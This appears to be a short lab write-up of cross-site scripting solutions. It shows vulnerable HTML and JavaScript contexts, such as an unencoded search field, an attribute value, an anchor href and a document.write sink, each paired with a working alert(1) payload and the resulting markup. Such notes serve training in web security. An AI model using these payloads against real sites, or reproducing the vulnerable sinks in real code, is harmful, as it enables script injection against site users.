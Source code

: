 # Cross-site scripting (contexts)

## XSS between HTML tags

### Reflected XSS into HTML context with nothing encoded
Search for: `<script>alert(1)</script>`

### Stored XSS into HTML context with nothing encoded
Post new comment: `<script>alert(1)</script>`

## XSS in HTML tag attributes

### Reflected XSS into attribute with angle brackets HTML-encoded
Context:
```html
<input maxlength="600" type="text" placeholder="Search the blog..." name="search" value="{HERE}">
```
Exploit:
```
" onfocus=alert(1) autofocus foo="
```
Result:
```html
<input name="search" value="" onfocus=alert(1) autofocus foo="">
```

### Stored XSS into anchor href attribute with double quotes HTML-encoded
Context:
```html
<a id="author" href="{HERE}">My web</a>
```
Exploit:
```
javascript:alert(1)
```

## DOM-based XSS

### DOM XSS in document.write sink using source location.search
Context:
```js
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
```
Exploit:
```
" onload="alert(1)"
```
Result:
```html
<img src="/resources/images/tracker.gif?searchTerms="" onload="alert(1)">
```
